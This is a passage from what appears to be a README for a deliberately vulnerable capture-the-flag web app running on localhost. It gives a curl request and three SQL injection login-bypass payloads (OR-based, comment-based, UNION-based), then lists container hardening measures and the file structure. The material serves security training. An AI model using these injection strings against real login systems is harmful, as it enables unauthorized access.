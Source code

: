 **Finding the Flag:**
The flag is sent as an HTTP response header named `X-CTF-Flag`. Use browser developer tools (Network tab) or tools like `curl` to inspect the response headers:

```bash
curl -X POST http://localhost:3000/login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin\' OR \'1\'=\'1\' --","password":"anything"}' \
  -v
```

### Automated Testing

Run the test script:
```bash
node test-sqli.js
```

## SQL Injection Payloads to Try

Here are some SQL injection payloads you can test:

1. **Basic OR bypass:**
   ```
   Username: admin' OR '1'='1' --
   Password: anything
   ```

2. **Comment-based bypass:**
   ```
   Username: admin'--
   Password: anything
   ```

3. **Union-based (advanced):**
   ```
   Username: admin' UNION SELECT 1,'admin','password' --
   Password: anything
   ```

## Security Features Implemented

Even though the application is vulnerable to SQL injection, it includes several security hardening measures:

1. **Containerization:** Runs in isolated Docker container
2. **Non-root user:** Container runs as non-privileged user
3. **Read-only database:** Database file is set to read-only to prevent DROP TABLE attacks
4. **Header security:** X-Powered-By header is disabled
5. **Principle of least privilege:** Minimal permissions and access

## File Structure

```
vulnerable-ctf-app/
├── frontend/
│   ├── src/
│   │   ├── App.jsx         # Main React component
│   │   ├── main.jsx        # React entry point
│   │   └── index.css       # Styling (Matrix theme)
│   └── index.html          # HTML template
├── dist/                   # Built React files (generated)
├── src/
│   └── index.html          # Legacy HTML (kept for reference)
├── database-setup.js       # Database initialization script
├── server.js              # Express server with vulnerable endpoint
├── package.json           # Node.js dependencies
├── vite.config.js         # Vite build configuration
```